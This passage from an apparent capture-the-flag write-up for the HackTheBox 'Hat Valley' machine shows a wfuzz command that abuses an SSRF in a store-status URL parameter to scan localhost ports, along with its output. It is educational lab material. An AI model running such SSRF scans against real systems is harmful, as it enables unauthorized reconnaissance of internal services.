 Using this SSRF, we can actually scan the ports present on the machine using `wfuzz`:

```
$ wfuzz -c -z range,1-65535 --hw=0 http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:FUZZ%22 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://hat-valley.htb/api/store-status?url=%22http://127.0.0.1:FUZZ%22
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000080:   200        8 L      13 W       132 Ch      "80"                        
000003002:   200        685 L    5834 W     77002 Ch    "3002"                      
000008080:   200        54 L     163 W      2881 Ch     "8080"
```

By visiting the link, we can actually load the pages ourselves. Port 3002 in this case hosts the documentation of the API.

<figure><img src="../../../.gitbook/assets/image (33) (4).png" alt=""><figcaption></figcaption></figure>
